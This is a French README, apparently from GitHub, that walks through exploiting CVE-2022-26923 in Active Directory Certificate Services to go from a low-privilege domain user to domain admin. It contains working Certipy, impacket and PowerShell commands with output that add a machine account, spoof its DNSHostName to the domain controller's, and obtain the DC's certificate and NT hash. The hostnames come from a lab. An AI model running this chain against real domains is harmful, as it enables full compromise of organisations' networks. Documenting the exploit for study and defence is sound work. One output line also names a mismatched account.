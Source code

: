 # CVE-2022-26923
Permet à n'importe quel utilisateur à faibles privilèges sur le domaine AD d'élever ses privilèges à ceux d'un administrateur de domaine d'entreprise en un seul saut !

## Exploitation de la vulnérabilité 
Nous utiliserons [Certipy](https://github.com/ly4k/Certipy) pour l'exploitation et les étapes a suivre sont les suivantes

1. Compromettre les informations d’identification d’un utilisateur AD à faibles privilèges.

2. Utilisez ces informations d’identification pour inscrire un nouvel hôte sur le domaine.

3. Modifiez l’attribut du nom d’hôte DNS de l’objet AD de l’ordinateur en celui d’un hôte privilégié, tel qu’un contrôleur de domaine.

4. Supprimez le SPN attribué pour contourner le problème de conflit SPN unique.

5. Demandez un certificat de machine en utilisant le modèle par défaut.

6. Effectuez l’authentification Kerberos avec le modèle reçu, désormais en tant que compte de machine privilégié au lieu de notre faux compte de machine.


**Exemple:** DNS a utiliser dans le fichier `/etc/hosts` 

```sh
10.10.17.21 lundc.lunar.eruca.com lundc lunar-LUNDC-CA lunar.eruca.com
```

## Génération de certificats de test
1. Générer un certificat pour notre utilisateur AD à faibles privilèges

```sh
certipy req 'lunar.eruca.com/user:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template User

#[*] Successfully requested certificate
#[*] Got certificate with UPN 'user@lunar.eruca.com'
#[*] Saved certificate and private key to 'user.pfx'
```

Vérifier que ce certificat est valide et peut également être utilisé pour l'authentification Kerberos:

```sh
certipy auth -pfx user.pfx

#[*] Trying to get TGT...
#[*] Got TGT
#[*] Saved credential cache to 'user.ccache'
#[*] Trying to retrieve NT hash for 'user'
#[*] Got NT hash for 'user@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a
```

> Certipy effectue l'authentification avec le certificat et utilise Impacket pour récupérer le hachage NTLM associé à l'UPN spécifié cela prouve au moins que le certificat est valide et peut être utilisé pour l'authentification Kerberos .

2. Ajout d'un ordinateur au domaine

```sh
impacket-addcomputer 'lunar.eruca.com/user:Password1@' -method LDAPS -computer-name 'USERPC' -computer-pass 'Password1@'

#[*] Successfully added machine account USERPC$ with password Password1@.
```

Générer un certificat pour le nouvel ordinateur que nous avons créé.

```sh
certipy req 'lunar.eruca.com/USERPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine

#[*] Successfully requested certificate
#[*] Got certificate with DNS Host Name 'USERPC.lunar.eruca.com'
#[*] Saved certificate and private key to 'userpc.pfx'
```

Nous pouvons à nouveau vérifier que le certificat est valide en utilisant Certipy :

```sh
certipy auth -pfx userpc.pfx

#[*] Trying to get TGT...
#[*] Got TGT
#[*] Saved credential cache to 'userpc.ccache'
#[*] Trying to retrieve NT hash for 'userpc$'
#[*] Got NT hash for 'userpc$@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a
```

Nous pouvons vérifier le hachage NTLM récupéré par rapport au mot de passe que nous avons défini pour le compte de la machine à l'aide d'un [Générateur NTLM](https://codebeautify.org/ntlm-hash-generator)



3. Mise à jour des attributs DNSHostName et SPN

```sh
Get-ADComputer USERPC -properties dnshostname,serviceprincipalname
```

Mettre à jour l'attribut `DNSHostName` avec celui du contrôleur de domaine

```sh
Set-ADComputer USERPC -ServicePrincipalName @{}
# Supprime le SPN actuel :

Set-ADComputer USERPC -DnsHostName LUNDC.lunar.eruca.com
# Mets l'attribut DNS hostname avec celui du contrôleur de domaine

Get-ADComputer USERPC -properties dnshostname,serviceprincipalname
# Juste pour verifier que tout a fonctionner
```

5. Falsification d'un certificat malveillant

Exécutons à nouveau la même commande de Certipy pour demander un nouveau certificat pour notre ordinateur :

```sh
certipy req 'lunar.eruca.com/USERPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine

#[*] Successfully requested certificate
#[*] Got certificate with DNS Host Name 'LUNDC.lunar.eruca.com'
#[*] Saved certificate and private key to 'lundc.pfx'
```

Cette fois, nous avons remarqué quelque chose de différent. Même si nous avons demandé un certificat pour USERPC, nous avons obtenu un certificat pour LUNDC. Vérifions que ce certificat fonctionne et qu'il renverra le hachage NTLM du compte de la machine LUNDC à la place :

```sh
certipy auth -pfx lundc.pfx

#[*] Trying to get TGT...
#[*] Got TGT
#[*] Saved credential cache to 'lundc.ccache'
#[*] Trying to retrieve NT hash for 'lundc$'
#[*] Got NT hash for 'thmpc$@lunar.eruca.com': <Redacted>
```

> Nous avons officiellement le hachage NTLM pour le compte machine de LUNDC et comme LUNDC est un contrôleur de domaine et que nous avons un accès administratif au DC, nous avons entièrement compromis le domaine en un seul saut !